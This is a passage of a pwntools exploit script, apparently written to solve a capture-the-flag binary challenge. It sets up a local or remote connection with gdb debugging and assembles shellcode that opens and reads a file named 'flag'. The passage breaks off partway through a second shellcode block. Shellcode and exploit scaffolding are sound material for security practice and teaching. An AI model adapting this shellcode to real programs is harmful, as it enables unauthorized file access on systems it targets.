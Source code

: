 ```python

# p: pwnlib.tubes.tube

def get_cxn():
    if "remote" in sys.argv:
        return remote(HOST, PORT)

    tmp_path=BINARY_PATH
    # pwninit --no-template --bin testbin --libc libc.so.6
    if os.path.exists(BINARY_PATH+"_patched"):
        tmp_path += "_patched"

    p = process(tmp_path)

    if "debug" in sys.argv:
        context.terminal = ["tmux", "splitw", "-h"]
        gdb.attach(p, "\n".join([
            # GDB commands here
            "set follow-fork-mode child",
            "break scm.c:68",
            "break scm.c:159"
        ]))

    return p

shellcode_1 = asm(r"""
    // open the file
    xor %rdx, %rdx
    push %rdx
    push 0x67616c66
    mov %rdi, %rsp
    mov %rsi, %rdx
    mov %rax, %rdx
    push 0x2
    pop %rax
    syscall
    
    // save the fd
    mov %rdi, %rax

    // get the buf location
    call $+5
    pop %rbx
    and %bx, 0xf000
    add %rbx, 0x800

    // read in the flag
    mov %rsi, %rbx
    push 0x80
    pop %rdx
    xor %rax, %rax
    syscall

    // exit
    push 0xe7
    pop %rax
    xor %rdi, %rdi
    syscall
""")

shellcode_2 = asm(r"""
    // get the flag location
    call $+5
```